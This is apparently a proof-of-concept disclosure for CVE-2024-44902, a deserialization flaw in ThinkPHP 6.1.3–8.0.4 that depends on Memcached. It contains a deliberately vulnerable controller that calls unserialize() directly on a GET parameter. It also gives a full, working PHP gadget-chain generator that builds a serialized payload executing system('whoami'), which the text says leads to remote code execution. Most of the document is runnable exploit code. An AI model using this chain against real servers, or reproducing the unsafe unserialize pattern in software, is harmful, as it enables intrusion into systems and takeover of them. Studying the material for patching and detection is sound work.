 # CVE-2024-44902

## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

## Affects Version

Thinkphp v6.1.3 to v8.0.4 

## Exploit condition

The thinkphp framework should have installed the Memcached extension.

## Vulnerability certificate

- Test environment: php8.0.7+thinkphp8.0.4+memcached3.2.0.

First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['x']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

    public function hello($name = 'ThinkPHP8')
    {
        return 'hello,' . $name;
    }
}

```

You can generate payload from:

```php
<?php
namespace think\cache\driver;
use think\model\Pivot;
class Memcached{
    protected $options=[];
    function __construct()
    {
        $this->options["username"]=new Pivot();
    }
}

namespace think\model;
use think\model;
class Pivot extends Model
{

}

namespace think;
abstract class Model{
    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    function __construct()
    {
        $this->data["fru1ts"]=["whoami"];
        $this->withAttr["fru1ts"]=["system"];
        $this->json=["fru1ts"];
    }
}

namespace think\route;
use think\DbManager;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new DbManager();
    }
}
namespace think;
use think\model\Pivot;
class DbManager
{
    protected $instance = [];
    protected $config = [];
    function __construct()
    {
        $this->config["connections"]=["getRule"=>["type"=>"\\think\\cache\\driver\\Memcached","username"=>new Pivot()]];
        $this->config["default"]="getRule";
    }
}

use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

Use the payload to deserialize can result to RCE:

![image-20240905234416317](CVE-2024-44902.assets/result.png)
